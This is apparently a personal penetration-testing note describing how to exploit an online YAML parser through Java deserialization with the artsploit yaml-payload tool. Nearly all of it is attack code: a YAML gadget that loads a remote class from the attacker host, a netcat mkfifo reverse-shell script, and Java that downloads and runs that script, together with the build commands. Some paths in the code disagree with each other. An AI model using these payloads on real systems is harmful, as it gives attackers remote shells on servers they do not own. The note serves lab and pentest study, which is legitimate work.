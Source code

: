 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Online YAML parser
See https://github.com/artsploit/yaml-payload

![[Pasted image 20220922153442.png]]

```bash - kali
git clone https://github.com/artsploit/yaml-payload
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```

Should see a call back in you python server.
![[Pasted image 20220922153421.png]]

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/Shelly.sh -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/Shelly.sh");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/Shelly.sh");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```

```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```

[[rlwrap]]

```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```














